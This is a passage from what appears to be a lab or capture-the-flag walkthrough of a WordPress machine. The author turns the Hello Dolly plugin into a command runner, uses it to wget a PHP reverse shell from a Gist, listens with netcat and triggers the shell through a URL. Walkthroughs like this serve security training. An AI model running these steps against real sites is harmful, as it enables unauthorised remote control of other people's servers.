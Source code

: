 I commented the return instruction, add a line to execute shell command, and return the shell command result to be printed in place of the previous _Hello Dolly_ song lyrics.

![Aww Yeah](/images/posts/lazysysadmin-wp-rce.png)

### PHP Reverse Shell

I uploaded PHP reverse shell script for me to gain reverse shell access at GitHub using anonymous Gist feature.

```
https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```

Then, I had the Hello Dolly plugin downloaded it using `wget` by hitting this URL on my browser.

```
http://192.168.0.107/wordpress/wp-admin/index.php?cmd=wget+https%3A%2F%2Fgist.githubusercontent.com%2Fanonymous%2F5cf1bb6324abcc8041c4f9e28d5f8424%2Fraw%2F94a5905fca7a8a21ef4cda2cdc13e6511c7a2856%2Fphp-reverse-shell.php
```

Sweet. Now I set up `netcat` to listen to port 1234, the port my PHP reverse shell is connecting to.

```
$ nc -lnvp 1234
```

I accessed PHP reverse shell from my browser.

```
http://192.168.0.107/wordpress/wp-admin/php-reverse-shell.php
```
